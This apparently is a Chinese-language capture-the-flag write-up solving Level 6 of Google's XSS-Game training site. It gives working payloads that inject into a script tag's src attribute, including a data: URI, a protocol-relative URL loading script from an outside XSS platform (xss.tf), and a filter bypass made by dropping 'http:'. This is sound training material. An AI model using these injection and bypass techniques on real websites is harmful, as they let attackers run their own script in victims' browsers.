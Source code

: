## [[XSS-Game](https://xss-game.appspot.com/)] [[Level 6 - Follow the rabbit](https://xss-game.appspot.com/level6)] [[解题报告](http://exp-blog.com/2019/02/15/pid-3322/)]

------

## 1. 解题方法一（题目 "BUG"）

明显注入点在 URL。

查看页面源码发现， 无论在 URL 输入什么都会实时回显到 script 标签的 src 属性里面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/01.png)

即注入点是这样的： `<script src="注入点" ></script>`

要在 script 标签的 src 属性执行 js ，可以构造这样的 payload： `data:text/javascript,alert('exp')`

直接 pass。。最后一关简单到离谱。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/02.png)


## 2. 解题方法二（XSS 平台）

其实这么简单就突破了，可能是这题的 BUG。

因为我一开始没看题目的 Mission Objective 变成了这样：

**Find a way to make the application request an external file which will cause it to execute an alert().**

即作者期望我们利用 script 标签的 src 属性去调用其他站点的 恶意 js 脚本，再由该脚本回调当前网页 的 alert，估计作者也没想到可以被钻了空子。

------------

若按作者的思路解题，我们可以用 xss 平台做，例如： [http://xss.tf](http://xss.tf)

注册 xss 平台后，任意创建一个项目，然后配置项目源码，勾选最后的“自定义代码”，输入一个 JS 函数 `alert()` ，最后查看项目代码，会给出访问这个项目的 URL，如这里为：[http://xss.tf/IUa](http://xss.tf/IUa)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/03.png)

打开这个 xss 项目的 URL ： [http://xss.tf/IUa](http://xss.tf/IUa)

可以看见页面只打印了一个 JS 函数 `alert()` ，到这里我们构造这个 xss 平台的目的就完成了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/04.png)

------------

### 2.1. 回调函数

回到挑战页面，前面已经知道注入点是这样的： `<script src="注入点" ></script>`

要从这里通过 xxs 平台回调 `alert()` 函数，只需要在 URL 末尾加上 `callback=alert`，即：

`<script src="http://xss.tf/gAk?callback=alert" ></script>`

回调原理大概是这样的：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/05.png)


------------

### 2.2. 验证绕过

但是直接注入 `http://xss.tf/gAk?callback=alert` 是无法成功的，

原因是题目对注入点做了正则校验，不允许输入以 http 或 https 开头的内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/06.png)

但是绕过的方式也很简单，直接删掉 `http:` 或 `https:` 即可，最终 payload 变成这样：

`//xss.tf/gAk?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/07.png)


在 web 网页中，以双斜杠 `//` 开头的 URL 写法有其特殊用途：

- 它会判断当前的页面协议是 http 还是 https 来决定请求 url 的协议
- 主要用于处理 \[网站使用的协议\] 和 \[网页中请求的外网资源\] 不一致的问题，达到无缝切换
- 这种写法在 CSS 很常见，如：`.omgomg { background: url(//exp-blog.com/imgs/exp.gif); }`


------------

## 3. 解题方法三（谷歌 jsapi）

查看 hits ，题目给出的一个提示是：`google.com/jsapi?callback=foo`

打开页面发现，google 会实时根据 `callback=foo` 的值构造一个 `foo` 函数

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/08.png)

因此可以构造这样的 payload ：`//www.google.com/jsapi?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/09.png)

这样就可以省去自己搭建 xss 平台的麻烦了，一样可以 pass ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/10.png)

------------

## 4. 闯关成功

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/11.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/12.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
